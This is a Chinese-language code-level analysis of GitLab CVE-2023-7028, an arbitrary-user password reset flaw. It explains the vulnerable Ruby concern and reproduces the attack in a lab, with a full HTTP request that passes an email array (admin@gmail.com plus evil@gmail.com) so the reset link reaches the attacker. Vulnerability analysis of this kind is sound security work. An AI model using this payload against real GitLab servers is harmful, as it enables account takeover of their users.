

# 奇安信攻防社区-GitLab 任意用户密码重置漏洞代码级分析（CVE-2023-7028）

### GitLab 任意用户密码重置漏洞代码级分析（CVE-2023-7028）

GitLab 任意用户密码重置漏洞代码级分析（CVE-2023-7028）

# 写在前面

GitLab 是一个开源的仓库管理系统，使用 Git 作为代码管理工具，并在此基础上搭建起来的 web 服务。它类似于 GitHub，能够浏览源代码，管理缺陷和注释。  
当 gitlab 启用邮箱登录时，攻击者如果掌握一个准确的邮箱账户的条件下，可以利用 CVE-2023-7028 漏洞重置该账户的密码。

# 代码分析

通过[补丁链接](https://gitlab.com/gitlab-org/gitlab/-/commit/44deb06e2c8e1c1b9424fc89dec4f60c8806711a)可以定位到邮箱重置密码的漏洞点：`app/models/concerns/recoverable_by_any_email.rb`

以下是关键代码：

**（重点代码已标记注释）**

```ruby
module RecoverableByAnyEmail
  extend ActiveSupport::Concern
  class_methods do
    # 这个方法重写了 Devise 的 send_reset_password_instructions 方法
    def send_reset_password_instructions(attributes = {})
      # 从传入的哈希中删除 :email 键并将其对应的值赋给 email 变量
      email = attributes.delete(:email)
      super unless email # 除非 email 变量为非 nil 或非 false，否则继续执行后续逻辑
      recoverable = by_email_with_errors(email)
      # 如果找到了用户，就向该用户发送密码重置指令
      recoverable.send_reset_password_instructions(to: email) if recoverable&.persisted?
      recoverable
    end

    private
    def by_email_with_errors(email)
      # 查找具有指定电子邮件地址且已确认的用户。如果找不到，则创建一个新的用户对象
      record = find_by_any_email(email, confirmed: true) || new
      # 如果新的用户对象还没有被保存到数据库，则在其上添加一个错误信息
      record.errors.add(:email, :invalid) unless record.persisted?
      record
    end
  end

  # 这个实例方法用于发送密码重置指令
  def send_reset_password_instructions(opts = {})
    token = set_reset_password_token
    send_reset_password_instructions_notification(token, opts)
    token
  end

  private
  def send_reset_password_instructions_notification(token, opts = {})
    send_devise_notification(:reset_password_instructions, token, opts)
  end
end
```

`attributes.delete(:email)` 将从 `attributes` 哈希中删除键为 `:email` 的键值对，并返回该键对应的值。然后，这个返回的值被赋值给变量 `email`。

举个例子，假设 `attributes` 哈希是这样的：

```ruby
attributes = {email: 'test@example.com'}
```

执行 `email = attributes.delete(:email)` 后，`email` 变量的值将会是 `'test@example.com'`

如果说我们传入的`attributes`如下：

```ruby
attributes = {"email" => ["admin@gmail.com", "attacker@gmail.com"]}
```

那么执行 `email = attributes.delete("email")` 将会返回一个数组

`["admin@gmail.com", "attacker@gmail.com"]`。这个数组将会被赋值给 `email` 变量。

然后执行`recoverable = by_email_with_errors(email)`，验证该邮箱是否存在对应的用户。

```ruby
def by_email_with_errors(email)
      # 查找具有指定电子邮件地址且已确认的用户。如果找不到，则创建一个新的用户对象
      record = find_by_any_email(email, confirmed: true) || new
      # 如果新的用户对象还没有被保存到数据库，则在其上添加一个错误信息
      record.errors.add(:email, :invalid) unless record.persisted?
      record
    end
```

然后执行`recoverable.send_reset_password_instructions(to: email) if recoverable&.persisted?`向 email 变量中的`所有邮箱`发送重置密码邮件。

# 漏洞复现

1.  网站首页如下图：


2.  点击忘记密码，进入密码重置页面，输入目标用户邮箱，然后抓包修改 **(红框部分是修改后的)**

```php
POST /users/password HTTP/1.1
Host: 172.23.80.161:3000
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: preferred_language=en; 16.7.0-hide-alert-modal=true; super_sidebar_collapsed=false; visitor_id=cead9e96-58e0-4537-93a9-1c201fe6a496; known_sign_in=OWpJMDR5eGNPVkFadi9YR3BFQUNjY3lNMk1od1BDTGtpZWU5RitKN0ozcENXVG13a3Q4M05SeWpDZU55bVkzaE9mNUFicy9iaEpGMC9YaWFqSW4xMllzMHFyNC9KRGZqaTA4RFhZcUxEWklPcm05UkwyK09hejg1SThPcjBOT3otLVJwRDNPdTVWelhuWmdpRmlrSXl3SUE9PQ%3D%3D--16245baa4982bcf678585093115d129b736babfc; _gitlab_session=3c585a48c6eb7abb73ddb73941173e34
Origin: http://172.23.80.161:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Referer: http://172.23.80.161:3000/users/password/new
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Content-Length: 139

authenticity_token=0t85NavC_Or-tRPBS8R4XX5I8N0z-3_D7j2624iIXer-MxdH5_wBKxxI6xLXse2MWDfgiaUC9LTF1W_mfA5mYQ&user%5Bemail%5D%5B%5D=admin@gmail.com&user%5Bemail%5D%5B%5D=evil@gmail.com
```




# 总结

-   在开启邮箱登陆和配置 SMTP 后，只需要知道目标账号的邮箱，即可重置密码。
-   在重置密码的页面抓包，修改`user[email]=admin@gmail.com`为`user[email][]=admin@gmail.com&user[email][]=evil@gmail.com`，传入数组类型的`user[email][]`，即可向攻击者邮箱也发送重置密码链接。
